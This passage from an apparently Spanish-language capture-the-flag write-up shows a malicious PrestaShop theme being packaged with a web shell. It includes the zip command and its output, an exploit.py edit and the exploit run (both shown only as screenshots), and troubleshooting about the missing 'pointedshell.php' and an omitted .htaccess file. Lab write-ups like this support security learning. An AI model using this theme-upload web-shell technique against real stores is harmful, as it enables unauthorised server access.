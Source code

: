 Y creamos el zip con la nueva shell.
```console
$ zip -r ps_next_8_theme_malicious.zip *                                          
  adding: assets/ (stored 0%)                                                             
  adding: assets/cache/ (stored 0%)                                                       
  adding: assets/cache/index.php (deflated 48%)                                           
  adding: assets/css/ (stored 0%)
  adding: assets/css/012cf6a10129e2275d79d6adac7f3b02.woff (deflated 0%)
  adding: assets/css/0266b05265f317a7409560b751cd61e8.svg (deflated 43%)
  adding: assets/css/082a71677e756fb75817e8f262a07cb4.svg (deflated 53%)
  adding: assets/css/154da4697acc779b55af0a67f1241e4e.ttf (deflated 40%)
  adding: assets/css/199038f07312bfc6f0aabd3ed6a2b64d.woff2 (deflated 0%)
  adding: assets/css/19c1b868764c0e4d15a45d3f61250488.woff2 (deflated 0%)
  adding: assets/css/22c0528acb6d9cd5bf4c8f96381bc05c.svg (deflated 58%)
....
```

También en `exploit.py` modificamos la línea 104.
![Write-up Image](images/Screenshot_21.png)


Ahora lanzamos el exploit.
![Write-up Image](images/Screenshot_22.png)

Y vemos que no creamos el archivo `pointedshell.php` correctamente, esto puede ser porque otras personas están intentando instalar el tema y se está reemplazando al mío.
Además me di cuenta que al crear el zip no estaba incluyendo los archivos ocultos, entre ellos está el `.htaccess` para habilitarme acceder a todos los recursos.
